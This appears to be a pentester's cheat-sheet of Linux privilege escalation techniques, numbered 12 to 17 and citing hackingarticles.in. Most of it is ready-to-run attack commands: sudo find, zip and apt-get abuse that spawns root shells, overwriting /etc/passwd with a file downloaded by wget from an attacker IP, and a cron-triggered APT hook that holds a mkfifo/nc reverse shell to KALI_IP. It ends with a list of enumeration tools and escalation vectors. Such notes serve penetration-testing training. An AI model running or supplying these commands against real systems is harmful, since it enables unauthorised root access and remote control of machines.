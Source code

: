         </br>
- 12)Linux for Pentester: Find Privilege Escalation</br>
        Reference:https://www.hackingarticles.in/linux-for-pentester-find-privilege-escalation/</br>
        Suid: find /etc/ -readable -type f 2>/dev/null</br>
        sudo -l </br>
        test  ALL=(root) NOPASSWD: /usr/bin/find</br>
        Victim:</br>
        sudo find /home -exec /bin/bash \;</br>
        find /home -exec /bin/bash \;</br>

- 13)Linux for Pentester: Wget Privilege Escalation</br>
        Reference: https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/</br>
        Victime:</br>
        find / -perm -u=s -type f 2>/dev/null</br>
        Attacker: openssl passwd -1 -salt ignite pass123(Create passwd file in local machine)</br>
        Victim: </br>
        cd /etc</br>
        wget -O passwd http://192.168.1.108:8000/passwd</br>
        su ignite</br>
        password: pass123</br>
        id</br>


- 14)Linux for Pentester : ZIP Privilege Escalation</br>
        Reference:https://www.hackingarticles.in/category/privilege-escalation/page/6/</br>
        Sudo -l</br>
        sudo zip 1.zip raj.txt -T --unzip-command="sh -c /bin/bash"</br>
        </br>
- 15)Linux for Pentester: APT Privilege Escalation</br>
        Reference:https://www.hackingarticles.in/category/privilege-escalation/page/6/</br>
        sudo -l</br>
        test   ALL=(ALL) NOPASSWD: /usr/bin/apt-get</br>
        sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash</br>
        </br>
- 16)Exploiting Cron job</br>
    */2 *     ***        root       apt-get update</br>

    echo 'apt::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc KALI_IP 1234 >/tmp/f”};’ > pwn</br>
    </br>
    - 17)Linux Privilege Escalation via Automated Script</br>
    https://www.hackingarticles.in/linux-privilege-escalation-via-automated-script/</br>
    Table of Content</br>

    Introduction</br>
    Vectors of Privilege Escalation</br>
    LinuEnum</br>
    Linuxprivchecker</br>
    Linux Exploit Suggester 2</br>
    Bashark</br>
    BeRoot</br>
Vectors of Privilege Escalation</br>

    OS Detail & Kernel Version</br>
    Any Vulnerable package installed or running</br>
    Files and Folders with Full Control or Modify Access</br>
    File with SUID Permissions</br>
    Mapped Drives (NFS)</br>
    Potentially Interesting Files</br>
    Environment Variable Path</br>
    Network Information (interfaces, arp, netstat)
    Running Processes
    Cronjobs
    User’s Sudo Right
    Wildcard Injection
    